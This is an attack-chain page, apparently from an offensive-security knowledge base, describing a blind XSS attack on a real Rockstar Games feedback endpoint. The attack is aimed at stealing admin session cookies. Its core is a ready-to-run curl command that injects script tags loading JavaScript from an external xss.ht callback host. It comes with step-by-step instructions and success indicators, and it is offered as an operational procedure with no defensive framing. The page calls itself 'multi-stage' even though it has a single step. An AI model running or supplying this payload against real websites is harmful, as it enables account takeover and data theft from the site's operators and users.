

---
tags:
  - xss
  - blind-xss
  - web-exploit
  - session-theft
type: attack_chain
tools:
  - '[[tools/xss-ht]]'
tactics:
  - '[[Execution]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Inject-Blind-XSS-Payload-into-Feedback-Form]]'
step_count: 1
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
updated_at: '2025-12-14T17:29:28.957Z'
description: >-
  A single-stage attack exploiting a Blind XSS vulnerability in the Rockstar
  Games feedback submission form to inject a payload that executes in the admin
  panel, enabling session cookie theft and data disclosure.
skill_level: intermediate
impact_level: high
id: f80f62af-64eb-4043-b079-355de914db42
validated: true
mitre_tactics:
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
# Blind XSS in Rockstar Games Feedback Form for Admin Session Theft

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/xss-ht]]

### Target Environment

- Web platform
- No specific services or ports required beyond HTTP/HTTPS access
- Public-facing website: https://www.rockstargames.com

### Initial Access Requirements

- No credentials required
- Internet access to submit form
- No prior access needed; form is unauthenticated

## Detailed Attack Procedures

### Step 1: Submit Malicious Payload
procedure: [[procedures/Inject-Blind-XSS-Payload-into-Feedback-Form]]

**Objective**: Inject a Blind XSS payload into the feedback form to store and execute malicious JavaScript in the admin review panel.

**Instructions**: Prepare a POST request using [[commands/curl-submit-xss-payload]] to the endpoint https://www.rockstargames.com/mouthoff/mouthoff/submit.json. Include the XSS payload in the name, subject, and body fields. Set email to a valid format like test@gmail.com, age to 30, and category_id to 1. Monitor the xss.ht endpoint for callback confirmation.

```bash
curl -X POST https://www.rockstargames.com/mouthoff/mouthoff/submit.json \
  -d "name=\"\'><script src=https://abhartiya.xss.ht></script>'" \
  -d "subject=\"\'><script src=https://abhartiya.xss.ht></script>'" \
  -d "body=\"\'><script src=https://abhartiya.xss.ht></script>'" \
  -d "email=test@gmail.com" \
  -d "age=30" \
  -d "category_id=1"
```

**Expected Output**: HTTP 200 response from the server indicating successful submission; no immediate visible execution as it's blind.

**Success Indicators**:
- Form submission succeeds without errors
- Callback received on xss.ht confirming payload execution in admin context
- Potential admin session data exfiltrated if payload is customized for theft

## Attack Chain Summary

### Key Achievements

1. Successful injection of Blind XSS payload into unauthenticated feedback form
2. Execution of JavaScript in privileged admin Angular JS panel
3. Potential for admin account takeover via session cookie theft and exposure of internal data

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
